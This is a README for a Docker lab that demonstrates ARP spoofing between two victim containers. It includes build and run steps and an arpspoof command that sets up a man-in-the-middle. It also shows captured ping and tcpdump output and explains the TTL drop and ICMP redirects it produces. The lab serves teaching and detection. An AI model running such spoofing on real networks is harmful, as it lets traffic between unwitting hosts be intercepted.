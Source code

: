# ARP Spoofing Lab in Docker

Inspired from https://dockersec.blogspot.com/2017/01/arp-spoofing-docker-containers_26.html 

We create:
- Two "victim" boxes.
- One "attacker" ArpSpoofer.
- An optional "observer" TcpDumper that can be attached to different network interface.


## Buid
  
```
sudo docker build --tag=arpspoofer --build-arg http_proxy=$http_proxy --build-arg https_proxy=https_proxy  arpspoofer
sudo docker build --tag=tcpdumper  --build-arg http_proxy=$http_proxy --build-arg https_proxy=$https_proxy tcpdumper
```

I tried `docker-compose`, but to open terms, a simple script is easier.

## Run
 
Launch 4 terminals:
```
gnome-terminal --title='Box1' -- sudo docker run -it --rm --name box1 busybox
gnome-terminal --title='Box2' -- sudo docker run -it --rm --name box2 busybox
gnome-terminal --title='ArpSpoofer' -- sudo docker run -it --rm --name arpspoofer arpspoofer
gnome-terminal --title='TcpDumper'  -- sudo docker run -it --rm  --net=container:arpspoofer --name tcpdumper tcpdumper
```

1. Check the IPs in Box1 and 2 `ip addr` 
1. Watch the ARP table on Box1 `watch arp -na`
1. Start pinging Box1 from Box2 `ping 172.17.0.x` (replace with Box1 IP)

Usually we would spoof the gateway, but here we spoof both hosts. Since they are on the same LAN, they do not need the Gateway to communicate. (Replace IP with Box1 and 2!)
`/usr/sbin/arpspoof -r -i eth0 -t 172.17.0.3 172.17.0.2`

You should see the traffic in TcpDumper (note that the container can be attached to other boxe's network). You can also capture traffic from within the host on bridge `Docker0` with Wireshark. 

### SELinux and tcpdump

TcpDump might not work with SELinux enabled. But: TcpDump is optional (you can use WireShark) and you can either temporarily disble SELinux or add an exception `sudo semodule -X 300 -i selinux/my-tcpdump.pp` (you can remove it after with `-r` instead of `-i`)


## Observations
  
Keep in mind that it is a very simple attack. We didn't do anything to be stealthy. 

The capture file is `result.pcapng`. Capture was done on the host's bridge `Docker0`.

- Box1 has 172.17.0.2 02:42:ac:11:00:02
- Box2 has 172.17.0.3 02:42:ac:11:00:03
- ArpSpoofer has 172.17.0.4 02:42:ac:11:00:04
- TcpDump has the same as ArpSpoofer 

### ping side
 
No errors. The only hint is the `ttl` decreasing from 64 to 63. 
```
64 bytes from 172.17.0.2: seq=12 ttl=64 time=0.147 ms
64 bytes from 172.17.0.2: seq=13 ttl=64 time=0.149 ms
64 bytes from 172.17.0.2: seq=14 ttl=63 time=0.516 ms
64 bytes from 172.17.0.2: seq=15 ttl=63 time=0.439 ms
...
64 bytes from 172.17.0.2: seq=129 ttl=64 time=0.153 ms
^C
--- 172.17.0.2 ping statistics ---
130 packets transmitted, 130 packets received, 0% packet loss
round-trip min/avg/max = 0.058/0.207/0.859 ms

```

### Tcpdump side

We can see the "nefarious" ARP messages:
```
10:41:37.882841 ARP, Reply 172.17.0.2 is-at 02:42:ac:11:00:04, length 28
10:41:37.883033 ARP, Reply 172.17.0.3 is-at 02:42:ac:11:00:04, length 28 
```

Here we see the ICMP messages:
```
10:41:38.095909 IP 172.17.0.3 > 172.17.0.2: ICMP echo request, id 2304, seq 14, length 64
10:41:38.095962 IP 172.17.0.4 > 172.17.0.3: ICMP redirect 172.17.0.2 to host 172.17.0.2, length 92
10:41:38.095970 IP 172.17.0.3 > 172.17.0.2: ICMP echo request, id 2304, seq 14, length 64
10:41:38.096039 IP 172.17.0.2 > 172.17.0.3: ICMP echo reply, id 2304, seq 14, length 64
10:41:38.096051 IP 172.17.0.4 > 172.17.0.2: ICMP redirect 172.17.0.3 to host 172.17.0.3, length 92
10:41:38.096055 IP 172.17.0.2 > 172.17.0.3: ICMP echo reply, id 2304, seq 14, length 64
```
We can see:
- Box2 request goes to ArpSpoofer
 - ArpSpoofer sends an ICMP redirect, telling Box2 to request Box1. 
 - ArpSpoofer forwards the packet to Box1 (decreases `ttl`)
- Box1 reply goes to ArpSpoofer
 - ArpSpoofer sends an ICMP redirect, telling Box1 to reply to Box2
 - ArpSpoofer forwards the packet to Box2 (decreases `ttl`)

You can select the same sequence in Wireshark with `icmp.seq == 14`. Wireshark interpretation is a bit off.

Box1 receives the ICMP redirect after it already has sent the reply. Looks like it is then ignored. 

## Cleanup

By default Docker will keep images and containers.
Here are some docker commands if you are not familiar with them:
- `sudo docker <image|container> ls -a` will show images or containers
- `sudo docker <image|container> prune` will remove unused images or containers.

Note that the `--rm` option in the run, tells docker to remove the container after use. It is normal if there are no container after running the lab.

Do not forget to eventually `sudo setenforce Enforcing` or remove the SELinux module if you installed it.

## Todo

- Use `export IP_BOX1=$(sudo docker inspect --format '{{.NetworkSettings.IPAddress}}' box1)` to get IP addresses, then use `sudo docker exec box2 sh -c "ping -c3 $IP_BOX1"`
- Tried, does not set the Terminal title, hence is useless:  _Use hostnames `... run -h box1 ...` (might simplify terminal titles, and if there is a DNS would be even better)_
